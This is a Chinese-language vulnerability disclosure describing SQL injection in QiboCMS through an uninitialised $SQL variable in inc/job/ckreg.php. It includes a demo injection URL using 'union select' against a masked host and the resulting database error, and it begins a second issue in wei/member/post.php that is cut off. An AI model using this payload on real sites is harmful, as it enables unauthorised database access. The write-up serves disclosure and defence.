 包含文件进来。

inc/job/ckreg.php 中

```php
}elseif($type=='yzimg'){

    if($db->get_one("SELECT * FROM {$pre}yzimg WHERE $SQL imgnum='$name' AND sid='$usr_sid'")){

        die("<img src=$webdb[www_url]/images/default/check_right.gif> <font color=red>验证码输入正确!</font>");

    }else{

        die("<img src=$webdb[www_url]/images/default/check_error.gif>请输入正确的验证码"); 

    } 
```

这里的$SQL 并没有初始化, 结合 qibocms 的全局机制 可以直接控制这个变量 导致注入。

![](img/261616473304ec18777b5ef075dd94d3f260b4eb.jpg)

demo 测试:

[`**.**.**.**/do/job.php?job=ckreg&type=yzimg&SQL=1=1`](http://**.**.**.**/do/job.php?job=ckreg&type=yzimg&SQL=1=1) union select 1%23

数据库连接出错:SELECT * FROM life5_yzimg WHERE 1=1 union select 1# imgnum='' AND sid='1wmqh6ce'

The used SELECT statements have a different number of columns

1222 请输入正确的验证码

* * *

第二个问题

在 wei/member/post.php 中

```php
elseif($action=="del")

{

    $rsdb=$db->get_one("SELECT B.*,A.* FROM `{$_pre}content` A LEFT JOIN `{$_pre}content_1` B ON A.id=B.id WHERE A.id='$id'");

    if($rsdb[fid]!=$fidDB[fid]){    

        showerr("栏目有问题");

    }

    if($rsdb[uid]!=$lfjuid&&!$web_admin)

    {
```